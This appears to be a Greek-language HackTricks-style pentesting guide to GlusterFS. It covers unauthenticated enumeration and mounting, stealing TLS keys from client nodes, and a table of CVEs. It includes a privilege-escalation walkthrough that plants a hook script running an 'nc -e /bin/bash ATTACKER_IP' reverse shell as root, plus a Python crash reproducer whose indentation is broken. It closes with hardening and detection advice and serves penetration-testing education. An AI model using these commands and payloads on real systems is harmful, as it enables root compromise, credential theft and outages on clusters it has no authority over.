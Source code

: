 # 24007-24008-24009-49152 - Pentesting GlusterFS

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**GlusterFS** είναι ένα **κατανεμημένο σύστημα αρχείων** που συνδυάζει αποθήκευση από πολλούς διακομιστές σε ένα **ενιαίο όνομα χώρου**. Η διαχείριση δαίμονας (`glusterd`) ακούει από προεπιλογή σε **24007/TCP** και δίνει οδηγίες σε bricks του data-plane που ξεκινούν από **49152/TCP** (μία θύρα ανά brick, με αύξηση). Οι εκδόσεις πριν από την 9.x χρησιμοποιούσαν **24008–24009/TCP** για τη μεταφορά bricks, οπότε θα συναντήσετε αυτές τις θύρες σε κληρονομημένα clusters.
```
PORT      STATE  SERVICE        VERSION
24007/tcp open   glusterd       GlusterFS (RPC)
49152/tcp open   gluster-brick  SSL (TLS optional)
```
> Συμβουλή: 24007 απαντά σε κλήσεις RPC ακόμη και όταν οι κόμβοι μόνο αποθήκευσης **δεν** εξάγουν κανένα όγκο; επομένως, η υπηρεσία είναι ένας αξιόπιστος στόχος pivot μέσα σε μεγάλες υποδομές.

## Αρίθμηση

Εγκαταστήστε τα εργαλεία πελάτη στο επιτιθέμενο σύστημα σας:
```bash
sudo apt install -y glusterfs-cli glusterfs-client   # Debian/Ubuntu
```
1. **Ανακάλυψη ομότιμων & υγεία**
```bash
# List peers (works without authentication in default setups)
gluster --remote-host 10.10.11.131 peer status
```
2. **Αναγνώριση όγκου**
```bash
# Retrieve the list of all volumes and their configuration
gluster --remote-host 10.10.11.131 volume info all
```
3. **Μόνταρε χωρίς προνόμια**
```bash
sudo mount -t glusterfs 10.10.11.131:/<vol_name> /mnt/gluster
```
Αν η τοποθέτηση αποτύχει, ελέγξτε το `/var/log/glusterfs/<vol_name>-<uid>.log` στην πλευρά του πελάτη. Συχνά προβλήματα είναι:

* Επιβολή TLS (`option transport.socket.ssl on`)
* Έλεγχος πρόσβασης με βάση τη διεύθυνση (`option auth.allow <cidr>`)

### Αντιμετώπιση προβλημάτων πιστοποιητικού

Κλέψτε τα παρακάτω αρχεία από οποιονδήποτε εξουσιοδοτημένο κόμβο πελάτη και τοποθετήστε τα στο `/etc/ssl/` (ή στον κατάλογο που εμφανίζεται στο αρχείο καταγραφής σφαλμάτων):
```
/etc/ssl/glusterfs.pem
/etc/ssl/glusterfs.key
/etc/ssl/glusterfs.ca
```
---

## Γνωστές Ευπάθειες (2022-2025)

| CVE | Επηρεαζόμενες εκδόσεις | Επιπτώσεις | Σημειώσεις |
|-----|-------------------|--------|-------|
| **CVE-2022-48340** | 10.0–10.4, 11.0 | Χρήση μετά από απελευθέρωση στη `dht_setxattr_mds_cbk` προσβάσιμη μέσω του δικτύου | Απομακρυσμένο **DoS** και πιθανή RCE. Διορθώθηκε στην 10.4.1 / 11.1. |
| **CVE-2023-26253** | < 11.0 | Ανάγνωση εκτός ορίων στον χειριστή ειδοποιήσεων FUSE | Απομακρυσμένη κατάρρευση μέσω κατασκευασμένων λειτουργιών FS; δημόσιο PoC διαθέσιμο. |
| **CVE-2023-3775** | < 10.5 / 11.1 | Λανθασμένη επικύρωση δικαιωμάτων κατά την τοποθέτηση του `gluster_shared_storage` | Επιτρέπει σε οποιονδήποτε μη αυθεντικοποιημένο πελάτη να τοποθετήσει τον όγκο διαχειριστή – οδηγεί σε **priv-esc** που εξηγείται παρακάτω. |

> Ελέγχετε πάντα το `gluster --version` **σε κάθε κόμβο**; ετερογενείς κλάστερ είναι συνηθισμένοι μετά από μερικές αναβαθμίσεις.

### Εκμετάλλευση του `gluster_shared_storage` (Αύξηση Δικαιωμάτων)

Ακόμα και σε πρόσφατες εκδόσεις, πολλοί διαχειριστές αφήνουν τον ειδικό όγκο `gluster_shared_storage` αναγνώσιμο από όλους επειδή απλοποιεί τη γεω-αναπαραγωγή. Ο όγκος περιέχει πρότυπα cronjob που εκτελούνται με **root** σε κάθε κόμβο.
```bash
# 1. Mount admin volume anonymously
mkdir /tmp/gss && sudo mount -t glusterfs 10.10.11.131:/gluster_shared_storage /tmp/gss

# 2. Drop malicious script that gets synchronised cluster-wide
cat <<'EOF' > /tmp/gss/hooks/1/start/post/test.sh
#!/bin/bash
nc -e /bin/bash ATTACKER_IP 4444 &
EOF
chmod +x /tmp/gss/hooks/1/start/post/test.sh

# 3. Wait until glusterd distributes the hook and executes it as root
```
Αν το `hooks/1/` δεν είναι παρόν, αναζητήστε το `/ss_bricks/` – η ακριβής διαδρομή μπορεί να διαφέρει με την κύρια έκδοση.

### Denial-of-Service PoC (CVE-2023-26253)
```python
#!/usr/bin/env python3
# Minimal reproducer: sends malformed NOTIFY_REPLY XDR frame to 24007
import socket, xdrlib, struct
p = xdrlib.Packer(); p.pack_uint(0xdeadbeef)
with socket.create_connection(("10.10.11.131",24007)) as s:
s.send(struct.pack("!L", len(p.get_buffer())|0x80000000))
s.send(p.get_buffer())
```
Η εκτέλεση του script προκαλεί κατάρρευση του `glusterfsd` < 11.0.

---

## Σκληροποίηση & Ανίχνευση

* **Αναβάθμιση** – η τρέχουσα LTS είναι 11.1 (Ιούλιος 2025). Όλες οι CVEs παραπάνω έχουν διορθωθεί.
* Ενεργοποιήστε το **TLS** για κάθε brick:

```bash
gluster volume set <vol> transport.socket.ssl on
gluster volume set <vol> transport.socket.ssl-cert /etc/ssl/glusterfs.pem
```
* Περιορίστε τους πελάτες με λίστες CIDR:

```bash
gluster volume set <vol> auth.allow 10.0.0.0/24
```
* Εκθέστε την θύρα διαχείρισης 24007 μόνο σε **ιδιωτικό VLAN** ή μέσω SSH tunnels.
* Παρακολουθήστε τα logs: `tail -f /var/log/glusterfs/glusterd.log` και ρυθμίστε τη δυνατότητα **audit-log** (`volume set <vol> features.audit-log on`).

---

## Αναφορές

* [GlusterFS security advisories](https://docs.gluster.org/en/latest/release-notes/#security)
* [CVE-2023-26253 PoC – github.com/tinynetwork/gluster-notify-crash](https://github.com/tinynetwork/gluster-notify-crash)
{{#include ../banners/hacktricks-training.md}}
